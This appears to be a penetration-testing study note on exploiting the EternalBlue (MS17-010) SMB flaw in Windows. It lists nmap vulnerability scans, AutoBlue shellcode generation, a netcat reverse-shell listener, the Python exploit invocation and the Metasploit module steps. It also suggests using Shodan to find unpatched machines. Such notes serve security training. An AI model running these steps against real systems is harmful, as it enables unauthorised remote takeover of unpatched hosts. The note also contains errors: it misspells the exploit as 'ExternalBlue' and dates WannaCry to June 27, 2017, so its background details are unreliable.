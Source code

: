 # Exploiting Eternal Blue
> EternalBlue (MS17-010 & CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently to the network the target sits on.

## Contents
- [Intro & Info](#intro--info)
  - [MS17-010 ExternalBlue Exploit](#ms17-010-externalblue-exploit)
  - [MS17-010 ExternalBlue Exploit... More Info](#ms17-010-externalblue-exploit-more-info)
  - [MS17-010 EternalBlue: Patches and Such](#ms17-010-eternalblue-patches-and-such)
  - [Shodan Search](#shodan-search)
  - [Exploit Tool: AutoBlue-MS17-010](#exploit-tool-autoblue-ms17-010)
- [Exploit Methods](#exploit-methods)
  - [Manual](#manual)
  - [MetaSploit](#metasploit)

## Intro & Info

### MS17-010 ExternalBlue Exploit
- EternalBlue was developed by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called The Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specifically crafted packets that consequently facilitate the execution of arbitrary commands.
  - This could also be a reverse shell or meterpreter session in msfconsole.
  - And you get admin. So there's no priv esc to be had. You're in and you're in.
- One of the biggest MS Fubars of the last 10 to 15 years.

### MS17-010 ExternalBlue Exploit... More Info
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017, to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple version of Windows:
  -   Windows Vista, 7, 8.1, Windows 10
  -   Windows Server 2008, 2012, 2016
 
### MS17-010 EternalBlue: Patches and Such
- Microsoft released a patch for the vulnerability in March of 2017. However many users and companies have still not yet patched their systems.
- The EternalBlue exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit, and it also has an exploit module that can be used to exploit the vulnerability on unpatched system.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a priviliged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

### [Shodan Search](https://www.shodan.io/)
- You can do a Shodan search and find thousands of machines still running versions of Windows that are vulnerable (unpatched).

### Exploit Tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Manual Exploitation: Through the use of a tool called AutoBlue-MS17-010

## Exploit Methods
```
nmap -p 445 -sV -sC -O [target ip]
nmap -p 445 -sV --script smb-vuln-ms17-010 [target ip]
```
- First run a standard port scan with nmap (`-sV -sC -O`); should confirm smb and the o/s, etc. 
- Then run an nmap script (`smb-vuln-ms17-010`) to get info about the MS17-010 vulnerability on the target.
  - This will tell you if it is vulnerable or not.

### Manual

#### 1. [Clone the Repo](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Clone the repo on your local machine
- Follow the instructions on Github (install dependencies, etc.)
- Remember: You'll have to give files executable permissions to run them.


#### 2. Generate Shell Code
- `cd` into the shell code directory of your repo clone.
- run the bash script `shell_prep.sh`
- Answer "yes" to the msvenom question. Then plug in the arguments when prompted.
- Regular shell, stageless
- That's it.  Pay attention to the .bin file name it spits out (`sc_x86.bin` or `sc_x64.bin`)

#### 3. Set up a Listener
```
nc -nvlp 1234
````
- On your local (attack) machine (obviously).
- `-n`  No DNS lookups
- `-v`  Verbose output
- `-l`  Listen for an incoming call
- `-p`  Port number

#### 4. Execute the Python Exploit Script
```
python eternalblue_exploit7.py [target ip] /path/to/shellcode/to/execute.bin
```
- Execute the appropriate Python script for your target system.
- When you hit enter you should get a reverse shell on your netcat listener. 

### MetaSploit

- Start msfconsole and search for eternalblue
  -  There are two types of modules you can use
  -  Auxiliary: scans, etc. Tells you whether the target is vulnerable or not
  -  Exploit: This one runs the exploit on a vulnerable system
-  `use exploit/windows/smb/ms17_010_eternalblue`
-  Note the default payload. If it's okay, no changes necessary. If not, change it.
-  Check and set options: LHOST, LPORT, RHOSTS
-  `run`
-  You should get a meterpreter session quickly
